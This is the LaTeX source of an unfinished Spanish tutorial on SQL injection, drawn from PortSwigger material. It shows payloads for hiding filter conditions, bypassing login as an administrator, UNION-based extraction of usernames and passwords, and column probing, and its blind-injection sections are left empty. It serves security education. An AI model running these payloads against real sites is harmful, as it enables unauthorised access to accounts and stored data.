\documentclass[bibliography=totocnumbered]{scrartcl}

% Codificación
\usepackage[utf8]{inputenc}
% Idioma
\usepackage[spanish]{babel}
% Bibliografía
\usepackage{csquotes}
\usepackage[backend=biber,citestyle=numeric,dateabbrev=false,language=spanish,sorting=nty]{biblatex}
\addbibresource{./referencias.bib}
% Links
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}
% Código de programación
\usepackage{listings}
% SetUp de colores para código
\usepackage{xcolor}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\lstdefinestyle{mystyle}{
    %backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    %numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}
% Imágenes
\usepackage{graphicx}
% Cambios de color para links
\newcommand{\changeurlcolor}[1]{\hypersetup{urlcolor=#1}} 
\title{SQL injection}
%\subtitle{subtitle}
\author{Víctor Nieves Sánchez}
\date{Última modificación \today{}}

\begin{document}
\maketitle
\section*{Disclaimer}
Este documento se ha elaborado por los autores, obteniendo información de diversos recursos, principalmente de la página web de \changeurlcolor{blue}\href{https://portswigger.net/web-security}{\textit{PortSwigger}}.\\
\changeurlcolor{black}
El objetivo de este documento es proporcionar una breve referencia de ayuda para el lector.\\

Si deseas más información, os recomendamos realizar los labs de su página web:
\begin{center}
\changeurlcolor{blue}\href{https://portswigger.net/web-security}{https://portswigger.net/web-security}    
\end{center}

\newpage
\tableofcontents

\newpage
\listoffigures

\newpage

\section{¿Qué es SQL injection?}
Normalmente conocida como \textit{SQLi} es una vulnerabilidad que permite al atacante interferir en las consultas que la aplicación hace a la base de datos. Generalmente permite al atacante obtener información la cual normalmente un usuario no tiene acceso. Esto puede incluir información de otro usuario o cualquier información de la aplicación que esté almacenada en la base de datos. En muchos casos, el atacante puede modificar o eliminar los registros que existen en la base de datos.\\

En algunas situaciones, la vulnerabilidad se puede escalar hasta comprometer el propio servidor, realizar un ataque \textit{Denial-of-Service (DoS)}\parencite{ddos} o \textit{Remote Code Execution (RCE)}\parencite{rce}.
\begin{figure}[h]
  
\includegraphics[width=\linewidth]{figures/SQLi.png}
  \caption{Esquema de SQLi}
  \label{fig:SQLi1}
\end{figure}

\section{Ejemplos de SQLi}
Hay una gran variedad de SQLi, ataques y técnicas, dependiendo de la situación concreta. Algunos de los ejemplos más comunes son:
\begin{itemize}
    \item Obtención de datos ocultos
    \item Modificar la lógica de la aplicación
    \item Obtención de información de otras tablas
    \item Examinar la base de datos
    \item Ataque a ciegas \textit{(Blind SQL injection)}
\end{itemize}

\subsection{Obtención de datos ocultos}
Considera una aplicación de compras que muestra productos de diferentes categorías. Cuando el usuario clica en una categoría concreta \textit{C1}, la petición URL será parecida a:
\begin{center}
\nolinkurl{https://website.com/productos?categoria=C1}
\end{center}
Esta petición genera una consulta SQL que devuelve la lista de productos de la categoría concreta. La consulta puede ser algo parecido a:
\begin{lstlisting}[language=SQL]
        SELECT * FROM productos WHERE categoria = 'C1' AND stock = 1
\end{lstlisting}
Esta consulta pide a la base de datos que devuelva todos los detalles \textit{(*)} de la tabla \textit{productos} cuya categoría sea \textit{C1} y estén en \textit{stock}.\\
La restricción \textit{stock = 1} se está usando para mostrar solo los elementos que están en stock, ocultando los que no estén (\textit{stock = 0}).\\

Considerando que la aplicación no implementa ninguna defensa frente SQLi, podemos construir un ataque como
\begin{center}
\nolinkurl{https://website.com/productos?categoria=C1'--}
\end{center}
Por lo que la consulta a la base de datos resultante sería:
\begin{lstlisting}[language=SQL]
        SELECT * FROM productos WHERE categoria = 'C1'--' AND stock = 1
\end{lstlisting}
La calve está en que el elemento \textit{\texttt{--}} es un indicador de comentario en SQL, y esto implica que lo que está a la derecha de éste símbolo se interprete como un comentario, por lo que la restricción deja de formar parte de la consulta.\\

Avanzando un poquito más, podemos conseguir que la aplicación nos devuelva todos los productos de todas las categorías. Para ello, construimos una consulta de la siguiente manera
\begin{center}
\nolinkurl{https://website.com/productos?categoria=C1'+OR+1=1--}
\end{center}
La consulta resultante sería:
\begin{lstlisting}[language=SQL]
  SELECT * FROM productos WHERE categoria = 'C1' OR 1=1--' AND stock = 1
\end{lstlisting}
Por lo que la respuesta nos devolverá todos los elementos que sean de la categoría \textit{C1} o que cumplan la condición \textit{1=1}, y como esta condición es siempre cierta, nos devolverá todos los productos.

\subsection{Modificar la lógica de la aplicación}
Consideremos una aplicación que permite a los usuarios iniciar sesión con su usuario y su contraseña, y que la consulta SQL tiene la siguiente forma:
\begin{lstlisting}[language=SQL]
 SELECT * FROM usuarios WHERE username='username' AND password='password'
\end{lstlisting}
Si la consulta retorna los datos del usuario, entonces éste ha iniciado sesión correctamente, pero si los datos no son correctos, se rechazará el inicio de sesión.\\

Un atacante puede iniciar sesión usando los caracteres de comentario en SQL \textit{(\texttt{--})} para eliminar la condición de la contraseña. Por ejemplo, supongamos que existe un usuario con \textit{username} \textit{''administrator''}. Se podría construir un ataque que nos permita iniciar sesión con este usuario sin necesidad de saber la contraseña de la siguiente manera:
\begin{lstlisting}[language=SQL]
 SELECT * FROM usuarios WHERE username='administrator'--' AND password=''
\end{lstlisting}

\subsection{Obtención de información de otras tablas}
En el caso de que la consulta SQL retorne información para mostrar en la aplicación, un atacante puede explotar la vulnerabilidad para obtener información de otras tablas en la base de datos. Esto se consigue usando \textit{UNION}, ya que permite ejecutar una consulta \textit{SELECT} adicional y concatenar los resultados en la consulta original.\\
Supongamos que la aplicación hace la siguiente consulta a la base de datos:
\begin{lstlisting}[language=SQL]
    SELECT * FROM productos WHERE categoria='C1' AND stock='1'
\end{lstlisting}
Podemos añadir 
\begin{lstlisting}
        ' UNION SELECT username, password FROM usuarios--
\end{lstlisting}
para conseguir que la aplicación retorne todos los usuarios y sus contraseñas.
\begin{lstlisting}[language=SQL]
SELECT * FROM productos WHERE categoria='C1' UNION SELECT username, password FROM usuarios-- AND stock='1'
\end{lstlisting}
\subsubsection{Ataques con UNION}
Para que un ataque por \textit{UNION} funcione, se deben cumplir dos requisitos clave:
\begin{itemize}
    \item Cada una de las consultas individuales ha de devolver el mismo número de columnas.
    \item Los tipos de cada columna deben ser compatibles entre las consultas.
\end{itemize}
Para lograr una inyección por \textit{UNION}, tienes que asegurar cumplir los requisitos anteriores. Esto, normalmente implica conocer
\begin{itemize}
    \item Saber cuantas columnas devuelve la consulta original.
    \item Cuales de esas columnas tienen un tipo de dato válido para soportar los datos de la consulta inyectada.
\end{itemize}
\paragraph{Determinar el número de columnas} 
\mbox{}

Hay dos métodos efectivos para determinar cuántas columnas tiene la consulta original.\\

El \textbf{primer método} es con la clausula \textit{ORDER BY}. Se empieza con \textit{ORDER BY 1} y se continua aumentando hasta que la aplicación devuelva un error.
\begin{lstlisting}
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
\end{lstlisting}
\bigbreak

El \textbf{segundo método} involucra la clausula \textit{UNION} anteriormente mencionada. Consiste en hacer varias consultas de la siguiente manera:
\begin{lstlisting}
    ' UNION SELECT NULL--
    ' UNION SELECT NULL, NULL--
    ' UNION SELECT NULL, NULL, NULL--
    etc.
\end{lstlisting}
Si el número de \textit{NULL} no encaja con el número de columnas, se notificará un mensaje de error.

\paragraph{Determinar el tipo de la columna} 
\mbox{}

Normalmente, buscaremos columnas con tipos de dato \textit{String}, por lo que necesitaremos encontrar las columnas que sean de tipo \textit{String}.\\
Sabiendo cuántas columnas tiene la consulta original, debemos probar cada una de las columnas. Suponiendo que son tres las columnas, las pruebas serían así:
\begin{lstlisting}
    ' UNION SELECT 'a', NULL, NULL--
    ' UNION SELECT NULL, 'a', NULL--
    ' UNION SELECT NULL, NULL, 'a'--
\end{lstlisting}
Si el tipo de dato no es compatible con un \textit{String}, entonces obtendremos un error.

\subsection{Examinar la base de datos}
Es posible obtener información relevante de la base de datos, pero la consulta depende del tipo de base de datos.
\begin{lstlisting}[language=SQL]
            SELECT @@version            /* MySQL        */
            SELECT * FROM v$version     /* Oracle       */
            SELECT version()            /* PostgreSQL   */
\end{lstlisting}
Para conocer las peculiaridades de cada base de datos, es aconsejable mirar alguna \textit{cheat sheet}\parencite[ver][]{cheat_sheet} e investigar y leer sobre la base de datos en cuestión.

\section{Blind SQL injection}
Como su nombre indica (\textit{blind}, ''a ciegas''), se refiere a cuando una aplicación es vulnerable a inyección SQL pero cuando las respuestas web no contienen los resultados de la consulta SQL o no se muestra ningún error de la base de datos.\\

Cuando existe este tipo de vulnerabilidad, algunas técnicas cómo los \textit{ataques con UNION} no son efectivos, ya que no es posible ver las respuestas de la consulta a la base de datos. Por ello, hay otras técnicas que si son efectivas.
\subsection{Provocando respuestas condicionales}

\subsection{Provocando errores SQL}

\subsection{Usando técnicas \textit{Out-of-Band}}
\parencite{oast}

\newpage
% Citar todas las ref (incluidas las que no han sido citadas)
\nocite{*}
\printbibliography 
\end{document}



